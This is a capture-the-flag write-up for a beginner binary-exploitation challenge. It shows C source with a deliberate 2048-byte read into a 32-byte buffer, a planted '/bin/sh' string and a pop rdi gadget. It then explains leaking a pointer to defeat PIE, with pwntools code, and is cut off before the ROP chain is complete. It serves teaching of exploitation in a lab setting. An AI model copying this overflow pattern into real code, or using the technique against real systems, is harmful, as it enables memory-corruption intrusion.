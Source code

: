 ```c
void gifts() {
    static char gift[8] = "/bin/sh\x00";
    __asm__(
        "pop %rdi;"
        "ret;"
    );
    system("echo You're going to need to try harder than this...");
}

int main() {
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    struct proving_ground field;
    strncpy(field.pad, "\x00\x00\x00\x00\x00\x00\x00\x00", 8);
    field.main_ref = &main;
    puts("To become a pwner, you must first know how to gain your bearings. ");
    puts("Time to prove yourself! ");
    printf("Let's start slow. What is your name? \n> ");
    read(0, field.name, 32);
    getchar();
    printf("Very well, %s. Now, let's see what you've got! \n> ", field.name);
    read(0, field.vuln, 2048);
    getchar();
    puts("I hope that worked out for you...");
    return 0;
}

```

so what we can notice here is that:
1. there is PIE enabled
2. there is a buffer overflow to `field.vuln`, 2048 bytes into a 32 byte buffer
3. there is a free `/bin/sh` and ROP gadget (`pop rdi, ret`) to our own shellcode

in the first input we can actually leak the address of `main` and defeat PIE already! because if we input `b'A'*32'` you'll see this:

```
b"Very well, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xb1QUUUU. Now, let's see what you've got! \n"
```

where the bit afterwards is `main_ref`. Waow........

so to get the PIE base, just subtract it from the main address in the unslid binary, which you can find using objdump -t or just `elf.symbols.main`

```python
elf = ELF('./chal')
pie_base = leaked - elf.symbols.main
elf.address = pie_base
```

afterwards, we get to do the fun bit and scream some As + our rop chain.

the pop rdi; ret gadget is used because we need to set up function arguments for our ROP chain.
